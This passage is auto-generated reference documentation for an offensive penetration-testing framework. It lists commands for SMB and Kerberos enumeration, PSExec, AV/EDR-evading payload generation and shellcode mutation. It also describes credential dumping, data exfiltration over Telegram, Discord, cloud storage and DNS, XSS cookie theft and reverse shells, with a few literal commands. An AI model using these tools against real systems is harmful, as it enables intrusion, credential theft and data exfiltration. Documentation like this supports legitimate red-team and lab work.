- Attempts to access the specified SMB share on the remote host using the command: `smbclient -N \\{rhost}\{line}`
3. If `line` is not provided:
- Lists available SMB shares on the remote host with the command: `smbclient -N -L \\{rhost}`
4. Suggests a potential SMB exploit if possible by mounting the share from the local host using: `mount -t cifs "//{lhost}/share" /mnt/smb`

:param line: The name of the SMB share to access on the remote host. If not provided, the function will list all available shares.
:returns: None*
- `do_smbclient_py` (line 178) `def do_smbclient_py(self, line)` - *Interacts with SMB shares using the `smbclient.py` command to perform the following operations:

1. Checks if `rhost` (remote host) and `lhost` (local host) are assign; if not, an error message is displayed.
2. If `line` (share name) is provided:
- Attempts to access the specified SMB share on the remote host using the command: `smbclient.py -N \\{rhost}\{line}`
3. If `line` is not provided:
- Lists available SMB shares on the remote host with the command: `smbclient.py -N -L \\{rhost}`
4. Suggests a potential SMB exploit if possible by mounting the share from the local host using: `mount -t cifs "//{lhost}/share" /mnt/smb`

:param line: The name of the SMB share to access on the remote host. If not provided, the function will list all available shares.
:returns: None*
- `do_smbmap` (line 225) `def do_smbmap(self, line)` - *smbmap -H 10.10.10.3 [OPTIONS]
Uses the `smbmap` tool to interact with SMB shares on a remote host:

1. Checks if `rhost` (remote host) and `lhost` (local host) are assign; if not, an error message is displayed.
2. If no `line` (share name or options) is provided:
- Attempts to access SMB shares on the remote host with a default user `deefbeef` using the command: `smbmap -H {rhost} -u 'deefbeef'`
3. If `line` is provided:
- Executes `smbmap` with the specified options or share name using the command: `smbmap -H {rhost} -R {line}`
4. Suggests a potential SMB exploit if possible by mounting the share from the local host using: `mount -t cifs "//{lhost}/documents" /mnt/smb`

:param line: Options or share name to use with `smbmap`. If not provided, uses a default user to list shares.
:returns: None*
- `do_getnpusers` (line 345) `def do_getnpusers(self, line)` - *sudo impacket-GetNPUsers mist.htb/ -no-pass -usersfile sessions/users.txt
Executes the `impacket-GetNPUsers` command to enumerate users with Kerberos pre-authentication disabled.

1. Checks if the `line` (domain) argument is provided; if not, an error message is displayed, instructing the user to provide a domain.
2. Executes `impacket-GetNPUsers` with the following options:
- `-no-pass`: Skips password prompt.
- `-usersfile sessions/users.txt`: Specifies the file containing the list of users to check.

:param line: The domain to query. Must be provided in the format `domain.com`. Example usage: `getnpusers domain.com`
:returns: None

Manual execution:
To manually run this command, use the following syntax:
    sudo impacket-GetNPUsers <domain> -no-pass -usersfile sessions/users.txt
Replace `<domain>` with the actual domain name you want to query.*
- `do_psexec` (line 390) `def do_psexec(self, line)` - *Executes the Impacket PSExec tool to attempt remote execution on the specified target.

This function performs the following actions:
1. Checks if the provided target host (`rhost`) is valid.
2. If the `line` argument is "pass", it searches for credential files with the pattern `credentials*.txt`
and allows the user to select which file to use for executing the command.
3. If the `line` argument is not "pass", it assumes execution without a password (using the current credentials).
4. Copies the `rhost` IP address to the clipboard for ease of use.

Parameters:
line (str): A command argument to determine the action.
            If "pass", the function searches for credential files and authenticates using the selected file.
            Otherwise, it executes PSExec without a password using the `rhost` IP.

Returns:
None*
- `do_psexec_py` (line 446) `def do_psexec_py(self, line)` - *Executes the Impacket PSExec tool to attempt remote execution on the specified target.

This function performs the following actions:
1. Checks if the provided target host (`rhost`) is valid.
2. If the `line` argument is "pass", it searches for credential files with the pattern `credentials*.txt`
and allows the user to select which file to use for executing the command.
3. If the `line` argument is not "pass", it assumes execution without a password (using the current credentials).
4. Copies the `rhost` IP address to the clipboard for ease of use.

Parameters:
line (str): A command argument to determine the action.
            If "pass", the function searches for credential files and authenticates using the selected file.
            Otherwise, it executes PSExec without a password using the `rhost` IP.

Returns:
None*
- `do_rpcdump` (line 502) `def do_rpcdump(self, line)` - *Executes the `rpcdump.py` script to dump RPC services from a target host.

1. Retrieves the target host IP from the `rhost` parameter.
2. Checks if the `rhost` parameter is valid using `check_rhost()`. If invalid, the function returns early.
3. Executes the `rpcdump.py` script on port 135 and 593 to gather RPC service information from the target host.

:param line: This parameter is not used in this command but is included for consistency with other methods.
:returns: None

Manual execution:
To manually run this command, use the following syntax:
    rpcdump.py -p 135 <target_host>
    rpcdump.py -p 593 <target_host>
Replace `<target_host>` with the IP address or hostname of the target machine.*
- `do_enum4linux` (line 528) `def do_enum4linux(self, line)` - *Performs enumeration of information from a target Linux/Unix system using `enum4linux`.

1. Executes the `enum4linux` command with the `-a` option to gather extensive information from the specified target.

:param line: This parameter is not used in the current implementation but could be used to pass additional options or arguments if needed.
:param rhost: The target host for enumeration, specified in the `params` dictionary.

:returns: None

Manual execution:
To manually enumerate information from a Linux/Unix system, use the following command:
    enum4linux -a <target_host>

Replace `<target_host>` with the IP address or hostname of the target system.

For example:
    enum4linux -a 192.168.1.10*
- `do_rpcclient` (line 558) `def do_rpcclient(self, line)` - *Executes the `rpcclient` command to interact with a remote Windows system over RPC (Remote Procedure Call) using anonymous credentials.

1. Runs `rpcclient` with the `-U ''` (empty username) and `-N` (no password) options to connect to the target host specified by `rhost`.

:param line: This parameter is not used in the current implementation but could be used to specify additional options or arguments if needed.
:param rhost: The IP address of the remote host to connect to, specified in the `params` dictionary.

:returns: None

Manual execution:
To manually interact with a remote Windows system using RPC, use the following command:
    rpcclient -U '' -N <target_ip>

Replace `<target_ip>` with the IP address of the target system. For example:
    rpcclient -U '' -N 10.10.10.10*

#### `estorides.py`
**Path:** `cli/commands/estorides.py`
**File Doc:** *Estorides integration commands — bidirectional feedback loop with passive OSINT.  Commands: estorides_seed     Feed LazyOwn hosts into Estorides for passive discovery. estorides_import   Import Estorides-discovered entities into LazyOwn DB/scope. estorides_loop     Run the full bidirectional feedback loop (N iterations). estorides_surface  Show the combined active + passive attack surface.*

**Classes:**
- `EstoridesCommandSet` (line 51) `class EstoridesCommandSet(LazyOwnCommandSet)` - *Bidirectional Estorides <-> LazyOwn integration commands.*

**Functions:**
- `_yellow` (line 43) `def _yellow(text)`
- `_green` (line 47) `def _green(text)`

**Methods:**
- `_check_estorides` (line 57) `def _check_estorides(self)` - *Check that estorides is cloned and available.*
- `do_estorides_seed` (line 73) `def do_estorides_seed(self, line)` - *Feed LazyOwn hosts/domains into Estorides for passive OSINT discovery.

Usage:
    estorides_seed [--source <src>] [--max-depth <n>] [--max-steps <n>]

Seed sources:
    all          - All available sources (default)
    world_model  - From sessions/world_model.json
    hosts_file   - From sessions/hostsdiscovery.txt
    db           - From lazyown.db hosts table
    scope        - From payload.json scope list
    <ip/domain>  - Manual seed value

Examples:
    estorides_seed                          # seed all sources
    estorides_seed --source hosts_file      # only from hostsdiscovery.txt
    estorides_seed --source scope --max-depth 3
    estorides_seed 10.10.14.141             # manual seed*
- `do_estorides_import` (line 189) `def do_estorides_import(self, line)` - *Import Estorides-discovered entities into LazyOwn database and scope.

Usage:
    estorides_import [--from <source>] [--case-id <id>] [--no-scope] [--no-db]

Import sources:
    case        - Read from estorides case store (SQLite)
    stix        - Parse STIX 2.1 bundles from estorides data/
    lan         - Read Estorides LAN bundle (data/lan_output or
                  sessions/lan_inventory.json) into DB + scope
    all         - All available sources (default)

Options:
    --from <s>      Source to import from (case, stix, lan, all)
    --case-id <id>  Import a specific case by ID
    --no-scope      Do not add discovered assets to payload.json scope
    --no-db         Do not add discovered assets to lazyown.db
    --preview       Preview entities only, do not import

Examples:
    estorides_import                          # import all
    estorides_import --from stix              # from STIX bundles
    estorides_import --from case --case-id a1b2c3d4
    estorides_import --preview                # preview only*
- `_preview_entities` (line 319) `def _preview_entities(self, entities)` - *Show a preview of entities grouped by type.*
- `do_estorides_loop` (line 337) `def do_estorides_loop(self, line)` - *Run the bidirectional Estorides <-> LazyOwn feedback loop.

Each iteration:
  1. Extract seeds from LazyOwn (world model, scope, DB, hosts files)
  2. Feed each seed into Estorides discover for passive OSINT
  3. Import new entities back into LazyOwn DB + scope
  4. New entities become seeds for the next iteration
  5. Runs lazynmap / nuclei if operator opts in on new targets

The loop converges when no new assets are discovered or max
iterations is reached.

Usage:
    estorides_loop [--iter <n>] [--depth <n>] [--auto-scan]

Options:
    --iter <n>       Max iterations (default: 3)
    --depth <n>      Discovery depth per seed (default: 2)
    --auto-scan      Automatically run lazynmap on new IPs discovered
                     by Estorides (requires active scanning permission)

Examples:
    estorides_loop                    # 3 iterations, passive only
    estorides_loop --iter 5 --depth 3 # 5 iterations, deeper discovery
    estorides_loop --auto-scan        # auto-scan new IPs from OSINT*
- `do_estorides_surface` (line 441) `def do_estorides_surface(self, line)` - *Show the combined active + passive attack surface.

Aggregates targets from:
  - LazyOwn database (lazyown.db hosts table)
  - LazyOwn scope (payload.json)
  - LazyOwn world model (sessions/world_model.json)
  - Estorides case store (estorides_cases.sqlite)
  - Estorides STIX bundles

Usage:
    estorides_surface [--json] [--export <path>]

Options:
    --json          Output as JSON
    --export <path> Export combined surface to JSON file

Examples:
    estorides_surface
    estorides_surface --json
    estorides_surface --export sessions/combined_surface.json*

#### `evasive_payload.py`
**Path:** `cli/commands/evasive_payload.py`
**File Doc:** *Auto-Adaptive Payload command set.  Detects target defenses (AV/EDR), selects optimal bypass techniques, and generates evasive payloads with polymorphic shellcode mutation.*

**Classes:**
- `EvasivePayloadCommandSet` (line 248) `class EvasivePayloadCommandSet(LazyOwnCommandSet)` - *Auto-adaptive payload generation with AV/EDR evasion.*

**Functions:**
- `_generate_shellcode` (line 586) `def _generate_shellcode(lhost, lport, target_os, arch)` - *Generate base shellcode with LHOST/LPORT patched.

Args:
    lhost: Attacker IP address.
    lport: Listening port.
    target_os: Target operating system.
    arch: Target architecture.

Returns:
    Raw shellcode bytes.*
- `_apply_bypass` (line 615) `def _apply_bypass(shellcode, technique, target_os)` - *Apply evasion technique to shellcode.

Args:
    shellcode: Raw shellcode bytes.
    technique: Bypass technique name.
    target_os: Target operating system.

Returns:
    Modified shellcode.*
- `_format_payload` (line 665) `def _format_payload(shellcode, fmt, lhost, lport)` - *Format shellcode into the requested output format.

Args:
    shellcode: Raw shellcode bytes.
    fmt: Output format name.
    lhost: Attacker IP.
    lport: Listening port.

Returns:
    Formatted payload string or raw bytes.*
- `_auto_select_bypass` (line 717) `def _auto_select_bypass(target_os)` - *Automatically select the best bypass technique.

Args:
    target_os: Target operating system.

Returns:
    Technique name.*
- `_format_ext` (line 731) `def _format_ext(fmt)` - *Return the file extension for a given format.*
- `_extract_flag` (line 736) `def _extract_flag(args, flag)` - *Extract a ``--flag <value>`` pair from a list of arguments.*

**Methods:**
- `do_evasive_payload` (line 255) `def do_evasive_payload(self, line)` - *Generate an evasive payload with automatic AV/EDR bypass.

Usage: evasive_payload [--lhost <ip>] [--lport <port>] [--os <windows|linux>] [--arch <x64|x86>] [--format <raw|hex|c|ps1|py|vba>] [--bypass <technique>]

Auto-selects the optimal bypass technique based on target OS.
Supports: syscall, unhook, process_inject, ppid_spoof, dll_sideload,
reflective_dll, early_bird, thread_hijack, mutation, encryption.*
- `do_mutate_shellcode` (line 307) `def do_mutate_shellcode(self, line)` - *Apply polymorphic mutation to shellcode for signature evasion.

Usage: mutate_shellcode <shellcode_file> [--iterations <n>] [--output <path>]

Applies N rounds of: XOR re-encoding, NOP sled insertion,
register randomization, and instruction reordering.*
- `do_detect_edr` (line 360) `def do_detect_edr(self, line)` - *Generate commands to detect EDR/AV on the target.

Usage: detect_edr [--target <ip>] [--user <username>] [--password <password>]

Queries Windows for installed AV/EDR products via WMI, registry,
and process enumeration.*
- `do_evasive` (line 415) `def do_evasive(self, line)` - *Generate detection-evading payloads with multiple obfuscation strategies.

Usage:
    evasive ps <raw_payload>   Obfuscate a PowerShell payload (AMSI bypass + encoding)
    evasive js <raw_payload>   Obfuscate a JavaScript payload
    evasive vba <raw_payload>  Obfuscate a VBA macro payload
    evasive rev <rhost> <rport> [python|bash|node]  Evasive reverse shell
    evasive sc <b64_shellcode> [early_bird|virtualalloc]  Shellcode loader
    evasive lolbas <payload_url> [technique]  LOLBAS execution
    evasive poly <command> [iterations]  Polymorphic command mutation
    evasive tech                 List all evasion techniques*
- `_print_usage` (line 514) `def _print_usage(self, fmt, path, lhost, lport)` - *Print usage instructions for the generated payload.*
- `do_evasion` (line 533) `def do_evasion(self, line)` - *Generate and manage C2 evasion profiles.

Usage:
    evasion generate [windows|linux|mac]   Generate a new evasion profile
    evasion rotate                          Rotate to a fresh profile
    evasion status                          Show active profile
    evasion history                         Show profile history*

#### `exfiltration.py`
**Path:** `cli/commands/exfiltration.py`
**File Doc:** *Data Exfiltration command set.  Covers data-out operations: XOR file encrypt/decrypt, Evil-WinRM authentication, Active Directory dumpers (secretsdump, GetUserSPNs, GetADUsers, gMSADumper, dploot, samdump2, reg.py, getnthash.py, adgetpass), Git tree dumping, rsync deployment, infinitestorage video evidence, Gofile uploads, cloud exfiltration (S3, GCS, Telegram, Discord), DNS/ICMP covert channels, staged multi-channel exfil, and the C2 implant download helpers.*

**Classes:**
- `ExfiltrationCommandSet` (line 327) `class ExfiltrationCommandSet(LazyOwnCommandSet)` - *Pending phase module for the Data Exfiltration commands.*

**Functions:**
- `_sessions_path` (line 142) `def _sessions_path(base_path)` - *Return the absolute ``sessions/`` directory under ``base_path``.*
- `_read_first_credential` (line 147) `def _read_first_credential(credentials_file)` - *Return the first ``username:password`` pair from ``credentials_file``.

Args:
    credentials_file: Path to a colon-separated ``credentials.txt``.

Returns:
    A tuple ``(username, password)`` or ``None`` when the file is
    empty or malformed.*
- `_extract_flag` (line 170) `def _extract_flag(args, flag)` - *Extract a ``--flag <value>`` pair from a list of arguments.

Args:
    args: Token list from ``shlex.split(line)``.
    flag: The flag name including leading dashes.

Returns:
    The flag value or ``None`` if the flag is not present.*
- `_split_file` (line 187) `def _split_file(file_path, output_dir, chunk_size)` - *Split a file into fixed-size chunks in ``output_dir``.

Args:
    file_path: Source file path.
    output_dir: Directory to write chunk files.
    chunk_size: Maximum bytes per chunk.*
- `_send_telegram_file` (line 208) `def _send_telegram_file(file_path, bot_token, chat_id, caption)` - *Send a file to a Telegram chat via the Bot API.

Args:
    file_path: Local file to send.
    bot_token: Telegram Bot API token.
    chat_id: Target chat ID.
    caption: File caption text.*
- `_send_discord_file` (line 231) `def _send_discord_file(file_path, webhook_url, filename)` - *Send a file to a Discord channel via webhook.

Args:
    file_path: Local file to send.
    webhook_url: Discord webhook URL.
    filename: Display name for the attachment.*
- `_upload_s3_presigned` (line 251) `def _upload_s3_presigned(file_path, bucket, object_key, access_key, secret_key, region)` - *Upload a file to S3 using a manually-signed presigned URL.

Args:
    file_path: Local file to upload.
    bucket: S3 bucket name.
    object_key: S3 object key.
    access_key: AWS access key.
    secret_key: AWS secret key.
    region: AWS region name.*
- `_sign` (line 296) `def _sign(key, msg)`

**Methods:**
- `do_encrypt` (line 334) `def do_encrypt(self, line)` - *Encrypt a file with XOR using a caller-supplied key.

Args:
    line: Whitespace-separated ``<file_path> <key>``. Anything
        else triggers a usage error.

Returns:
    None.*
- `do_decrypt` (line 361) `def do_decrypt(self, line)` - *Decrypt an XOR-encrypted file using the matching key.

Args:
    line: Whitespace-separated ``<file_path> <key>``. Anything
        else triggers a usage error. The ``.enc`` suffix is
        stripped from the output filename when present.

Returns:
    None.*
- `do_evilwinrm` (line 389) `def do_evilwinrm(self, line)` - *Drive Evil-WinRM through password, hash or kerberos-only auth.

Modes:
    ``pass`` reuses entries from ``sessions/credentials*.txt``.
    ``hash`` reads ``sessions/hash.txt`` for an NT hash and
    prompts for a username (default ``Administrator``).
    ``nopass`` connects to ``<subdomain>.<domain>`` without
    credentials.

Args:
    line: Sub-command starting with ``pass``, ``hash`` or
        ``nopass``, optionally followed by counter / PowerShell
        flags for ``pass``.

Returns:
    None.*
- `do_secretsdump` (line 460) `def do_secretsdump(self, line)` - *Run impacket-secretsdump for SAM, credentials, or NTDS payloads.

Sub-commands:
    ``sam``     parses local ``sessions/SAM`` + ``sessions/SYSTEM``
    ``creds``   iterates ``sessions/credentials.txt`` pairs
    ``system``  parses live ``ntds.dit`` + registry hives

Args:
    line: Sub-command from the list above. Empty input prints
        the usage error.

Returns:
    None.*
- `do_getuserspns` (line 534) `def do_getuserspns(self, line)` - *Run impacket-GetUserSPNs to request roastable service tickets.

Args:
    line: Optional username to use in place of the first entry
        from ``sessions/credentials.txt``.

Returns:
    None.*
- `do_gitdumper` (line 568) `def do_gitdumper(self, line)` - *Install ``git-dumper`` if missing and pull a remote ``.git`` tree.

Args:
    line: Unused; an interactive prompt collects the repo URL.

Returns:
    None.*
- `do_evidence` (line 593) `def do_evidence(self, line)` - *Encode the ``sessions/`` tree into a video file or decode one back.

Default invocation compresses ``sessions/`` to
``sessions.zip`` and renders ``sessions/encoded_output.avi`` via
the infinitestorage helper. Pass ``decode`` to pick a video and
recover its original payload.

Args:
    line: ``decode`` to enter decode mode; anything else encodes.

Returns:
    None.*
- `do_getadusers` (line 673) `def do_getadusers(self, line)` - *Run impacket-GetADUsers to enumerate AD accounts on the DC.

When ``sessions/credentials.txt`` is present the helper iterates
each pair authenticated to ``rhost``. Otherwise it offers the
list of ``.txt`` files under ``sessions/`` so the operator can
select a username list and brute-force kerberos pre-auth.

Args:
    line: Unused.

Returns:
    None.*
- `do_adgetpass` (line 734) `def do_adgetpass(self, line)` - *Generate a PowerShell script to extract Azure AD Connect credentials.

Renders the standard ``mcrypt.dll`` key-manager script with
operator-provided GUIDs and SQL identifiers, writing it to
``sessions/adconnect.ps1`` for upload to the target.

Args:
    line: Space-separated ``server database keyset_id instance_id entropy``.
        Each missing positional triggers an interactive prompt.

Returns:
    None.*
- `do_samdump2` (line 799) `def do_samdump2(self, line)` - *Run samdump2 against ``sessions/SYSTEM`` and ``sessions/SAM``.

Args:
    line: Unused.

Returns:
    None.*
- `do_reg_py` (line 824) `def do_reg_py(self, line)` - *Query a remote registry hive with impacket-reg.py over hash auth.

Args:
    line: Unused.

Returns:
    None.*
- `do_unzip` (line 851) `def do_unzip(self, line)` - *Extract a zip archive located under ``sessions/``.

Args:
    line: Optional zip filename. Empty input picks the first
        ``*.zip`` discovered via :func:`get_users_dic`.

Returns:
    None.*
- `do_getnthash_py` (line 873) `def do_getnthash_py(self, line)` - *Recover the NT hash from a Kerberos U2U TGS via PKINITtools.

Args:
    line: Unused; the helper iterates ``sessions/credentials.txt``.

Returns:
    None.*
- `do_upload_gofile` (line 905) `def do_upload_gofile(self, line)` - *Upload a file from ``sessions/`` to Gofile via its HTTP API.

The helper enumerates non-excluded files under ``sessions/``, asks
the operator to pick one, posts it to ``store1.gofile.io``, and
prints the resulting metadata.

Args:
    line: Unused.

Returns:
    None.*
- `do_rsync` (line 967) `def do_rsync(self, line)` - *Push the ``sessions/`` tree to ``rhost`` over SCP with sshpass.

Args:
    line: Optional alternate source path; defaults to
        ``<self.path>/sessions``.

Returns:
    None.*
- `do_gmsadumper` (line 1004) `def do_gmsadumper(self, line)` - *Run gMSADumper to read gMSA password blobs visible to the user.

Args:
    line: Unused.

Returns:
    None.*
- `do_dploot` (line 1043) `def do_dploot(self, line)` - *Run dploot to loot DPAPI-protected secrets.

Actions: ``backupkey``, ``blob``, ``browser``, ``certificates``,
``credentials``, ``machinecertificates``, ``machinecredentials``,
``machinemasterkeys``, ``machinevaults``, ``masterkeys``,
``mobaxterm``, ``rdg``, ``sccm``, ``vaults``, ``wam``, ``wifi``.

Args:
    line: First token is the action; missing input prompts for it.

Returns:
    None.*
- `_resolve_dploot_args` (line 1089) `def _resolve_dploot_args(self, action, domain)` - *Return the tail arguments matching a dploot action.

Args:
    action: dploot subcommand name selected by the operator.
    domain: Target Active Directory domain (used for ``.mkf``).

Returns:
    The argument suffix to append to the dploot command, or
    ``None`` when the action is unknown (and an error was
    already printed).*
- `download_file_from_c2` (line 1125) `def download_file_from_c2(self, file_name, clientid)` - *Download a file from the C2 implant upload queue.

Posts an ``upload:<file_name>`` command to the implant identified
by ``clientid`` and writes the response body under
``sessions/temp_uploads/<file_name>``.

Args:
    file_name: Remote filename relative to the implant's working
        directory.
    clientid: Implant identifier. Empty input prompts the
        operator with the current ``c2_clientid`` as default.

Returns:
    None.*
- `do_download_c2` (line 1164) `def do_download_c2(self, line)` - *Download a file from the C2 implant via the upload command.

Args:
    line: Remote path of the file to download. An empty input
        returns an error matching the live ``LazyOwnShell``
        behaviour.

Returns:
    None.*
- `do_exfil_s3` (line 1181) `def do_exfil_s3(self, line)` - *Upload a file to an AWS S3 bucket.

Usage: exfil_s3 <file_path> --bucket <name> --key <access_key> --secret <secret_key> [--region <region>] [--prefix <prefix>]

Requires boto3 to be installed. Falls back to a presigned-URL
approach using requests when boto3 is not available.*
- `do_exfil_telegram` (line 1226) `def do_exfil_telegram(self, line)` - *Exfiltrate a file via Telegram Bot API.

Usage: exfil_telegram <file_path> --token <bot_token> --chat <chat_id>

The file is sent as a document to the specified Telegram chat.
Files larger than 50MB are automatically split into chunks.*
- `do_exfil_discord` (line 1271) `def do_exfil_discord(self, line)` - *Exfiltrate a file via Discord webhook.

Usage: exfil_discord <file_path> --webhook <webhook_url>

Files larger than 25MB are automatically split into chunks.*
- `do_exfil_gcs` (line 1314) `def do_exfil_gcs(self, line)` - *Upload a file to Google Cloud Storage.

Usage: exfil_gcs <file_path> --bucket <name> --key <access_key_json_path>

The --key flag expects the path to a GCP service account JSON file.*
- `do_exfil_dns` (line 1356) `def do_exfil_dns(self, line)` - *Exfiltrate data via DNS tunneling.

Usage: exfil_dns <file_path> --domain <dns_domain> [--server <dns_server>]

Encodes file content as Base32 hex and sends via DNS A-record queries.
Requires a cooperating DNS server that logs queries.*
- `do_exfil_http` (line 1415) `def do_exfil_http(self, line)` - *Exfiltrate a file via HTTP POST to a controlled server.

Usage: exfil_http <file_path> --url <upload_url> [--param <field_name>] [--chunked] [--ssl false]

Posts the file as multipart form data. With --chunked, splits and
sends in chunks with sequence headers for reassembly.*
- `do_exfil_auto` (line 1485) `def do_exfil_auto(self, line)` - *Auto-detect flags and sensitive files, then exfiltrate.

Usage: exfil_auto --method <telegram|discord|s3|gcs|http|gofile> [method flags...]

Scans common flag locations (root.txt, user.txt, /home/*/user.txt,
/root/root.txt, C:\Users\*\Desktop\*.txt) and exfiltrates them.
Supports all exfil_* --flags for the selected method.*
- `do_stage` (line 1543) `def do_stage(self, line)` - *Stage data for exfiltration: compress, encrypt, and split.

Usage: stage <file_or_directory> [--encrypt <key>] [--split <size_mb>] [--output <dir>]

Creates a staged package: gzip compress -> optional XOR encrypt -> split into chunks.
Outputs a manifest.json with reassembly instructions.*

#### `exploit.py`
**Path:** `cli/commands/exploit.py`
**File Doc:** *Exploitation command set (pending activation).  Commands migrated from ``lazyown.py`` that belong to the exploitation phase (category ``03. Exploitation``). Inherits from :class:`PendingCommandSet` because the originals still live in ``lazyown.py``. Once the originals are deleted, switch the base to :class:`LazyOwnCommandSet`.*

**Classes:**
- `ExploitCommandSet` (line 29) `class ExploitCommandSet(LazyOwnCommandSet)` - *Exploitation phase commands.

Status: pending — originals still in ``lazyown.py``.*

**Methods:**
- `do_sqlmap` (line 39) `def do_sqlmap(self, line)` - *Runs SQLMap against the target URL for SQL injection testing.

Usage:
    sqlmap

:param line: Optional extra arguments for sqlmap.
:returns: None*
- `do_lazypwn` (line 64) `def do_lazypwn(self, line)` - *Executes the LazyPwn automated exploitation script.*
- `do_rev` (line 69) `def do_rev(self, line)` - *Copies a reverse shell one-liner to the clipboard.

Uses the lhost and lport from the payload configuration.
:returns: None*
- `do_commix` (line 86) `def do_commix(self, line)` - *Runs commix for command injection testing.

:param line: Target URL or extra arguments.
:returns: None*
- `do_download_exploit` (line 105) `def do_download_exploit(self, line)` - *Downloads and sets up an exploit, optionally serving via HTTP.

:param line: Exploit search term or download URL.
:returns: None*
- `do_img2cookie` (line 126) `def do_img2cookie(self, line)` - *Generates an XSS payload that steals cookies via an image tag.

:param line: URL for the cookie-stealing endpoint.
:returns: None*
- `do_wrapper` (line 150) `def do_wrapper(self, line)` - *Copies LFI php-wrapper payloads to the clipboard.

:param line: Optional custom arguments.
:returns: None*
- `do_kusa` (line 168) `def do_kusa(self, line)` - *Runs the Kusanagi payload generator.

:param line: Arguments to pass to kusanagi.
:returns: None*
- `do_ticketer` (line 178) `def do_ticketer(self, line)` - *Runs Impacket ticketer for golden/silver ticket creation.

:param line: Arguments to pass to ticketer.
:returns: None*
- `do_www` (line 192) `def do_www(self, line)` - *Starts a simple HTTP server on the configured port to serve payloads.

:param line: Optional custom port.
:returns: None*

#### `exploit_migrated.py`
**Path:** `cli/commands/exploit_migrated.py`
**File Doc:** *exploit commands migrated from lazyown.py.  Auto-generated by scripts/migrate_lazyown.py.*

**Classes:**
- `ExploitMigratedCommandSet` (line 38) `class ExploitMigratedCommandSet(LazyOwnCommandSet)`

**Functions:**
- `setup_handler` (line 513) `def setup_handler(config_file, lhost, lport)` - *Sets up a Metasploit multi/handler exploit configuration in the provided config file.

Args:
    config_file (file-like object): The file object to write the Metasploit handler configuration to.
    lhost (str): The local host IP address to listen for incoming connections.
    lport (int): The local port number to listen for incoming connections.

Writes:
    - Configuration commands to the file to set up the Metasploit handler with the specified payload and options.
    - The payload used is `php/meterpreter/reverse_tcp`.
    - The handler is configured to listen on the provided LHOST and LPORT.
    - Starts the exploit with the `-j -z` options.*
- `cacti_exploit` (line 536) `def cacti_exploit(config_file, host)` - *Configures an exploit for the Cacti Package Import Remote Code Execution vulnerability in the provided config file.

Args:
    config_file (file-like object): The file object to write the Metasploit exploit configuration to.
    host (str): The target host IP address where the Cacti service is running.

Writes:
    - Configuration commands to the file to set up the Metasploit exploit for the Cacti Package Import RCE.
    - Sets the RHOST to the target host IP.
    - Sets the payload options including the LHOST, USERNAME, and PASSWORD.
    - Starts the exploit with the `-j -z` options.*

**Methods:**
- `do_cp` (line 43) `def do_cp(self, line)` - *Copies a file from the ExploitDB directory to the sessions directory.

1. Retrieves the path to the ExploitDB directory and the target file from the `line` parameter.
2. Copies the specified file from the ExploitDB directory to the `sessions` directory in the current working directory.

:param line: The relative path to the file within the ExploitDB directory. For example, `java/remote/51884.py`.
:param exploitdb: The path to the ExploitDB directory. This must be assign in advance or provided directly.

:returns: None

Manual execution:
To manually copy files, use the following syntax:
    cp <exploitdb_path><file_path> <destination_path>

Replace `<exploitdb_path>` with the path to your ExploitDB directory, `<file_path>` with the relative path to the file, and `<destination_path>` with the path where you want to copy the file.

For example:
    cp /usr/share/exploitdb/exploits/java/remote/51884.py /path/to/sessions/*
- `do_createcookie` (line 84) `def do_createcookie(self, line)` - *Creates a `cookie.txt` file in the `sessions` directory with the specified cookie value.

This function performs the following actions:
1. Extracts the cookie value from the provided input line using a regular expression.
2. Writes the extracted cookie value to `sessions/cookie.txt`.

Usage:
    createcookie cookie=user_data=valor_base64

:param line: The input line containing the cookie value in the format `cookie=value`.
:type line: str
:returns: None

Manual execution:
1. Creates or overwrites the file `sessions/cookie.txt` with the extracted cookie value.

Dependencies:
- `sessions/cookie.txt` will be created in the `sessions` directory.

Example:
    createcookie cookie=user_data=valor_base64

Note:
    - Ensure the input format is correct: `cookie=value`.
    - The cookie value should be properly encoded and formatted as needed.*
- `do_py3ttyup` (line 128) `def do_py3ttyup(self, line)` - *Copies a Python reverse shell command to the clipboard.

This function generates a Python command that uses the `pty` module to spawn a new shell and copies it to the clipboard. This is typically used for creating a TTY shell in a reverse shell situation.

Usage:
    py3ttyup

:param line: This parameter is not used in the function.
:type line: str
:returns: None

Manual execution:
1. The function creates a Python command with `pty.spawn` to open a shell.
2. The command is copied to the clipboard using `xclip`.
3. A message is printed to inform the user that the command has been copied.

Dependencies:
- The script uses `xclip` to copy the command to the clipboard.

Example:
    py3ttyup
    # This will copy the Python command `python3 -c 'import pty; pty.spawn("/bin/bash")'` to the clipboard.

Note:
    This command is often used in scenarios where you need a more interactive shell from a reverse shell connection.*
- `do_pyautomate` (line 164) `def do_pyautomate(self, line)` - *Automates the execution of pwntomate tools on XML configuration files.

1. Sets the directory for XML files to be processed:
- Checks the `sessions` directory for XML files.

2. For each XML file found:
- Constructs and executes a command to run `pwntomate` with the XML file as input.
- The command is executed using `subprocess.run`, and errors are handled if the command fails.

3. After processing all XML files:
- Prints a message indicating that the target has been pwntomated.

:param line: This parameter is not used in the function.
:type line: str
:returns: None

Manual execution:
To manually run these tasks, you would need to:
- Ensure that XML configuration files are present in the `sessions` directory.
- Run `pwntomate.py` manually on each XML file using a similar command format.

Note: This function assumes that `pwntomate.py` is available in the current working directory and is executable with Python 3.*
- `do_winbase64payload` (line 215) `def do_winbase64payload(self, line)` - *Creates a base64 encoded payload specifically for Windows to execute a PowerShell command or download a file using `self.params['lhost']`.

1. Checks if `self.params['lhost']` is set:
    - Displays an error message and exits if `self.params['lhost']` is not set.

2. Checks if a file name or command is provided:
    - Displays an error message and exits if no file name or command is provided.

3. Prompts for the type of payload:
    - '1': Constructs a PowerShell command to download and execute a `.ps1` script from `self.params['lhost']`.
    - '2': Constructs a command to download a file using `wget`.

4. Prompts for the output type:
    - '1': Outputs the base64 encoded PowerShell command.
    - '2': Outputs the base64 encoded command in an ASP format.
    - '3': Outputs the base64 encoded command in a PHP format.

5. Encodes the command:
    - Converts the command to UTF-16LE encoding.
    - Encodes the UTF-16LE encoded command to base64.
    - Copies the final base64 command to the clipboard using `copy2clip`.

:param line: The name of the `.ps1` file or the command to be executed.
:type line: str
:returns: None

Manual execution:
To manually use the payload:
- Ensure `self.params['lhost']` is assign to the correct IP address.
- Place the `.ps1` file in the `sessions` directory if using the 'ps1' payload type.
- Use `copy2clip` to copy the generated base64 command to the clipboard.

Note: Ensure `iconv`, `base64`, and `xclip` are installed and available on your system.*
- `do_createdll` (line 344) `def do_createdll(self, line)` - *Create a Windows DLL file using MinGW-w64 or a Blazor DLL for Linux.

This function prompts the user to select between creating a 32-bit DLL,
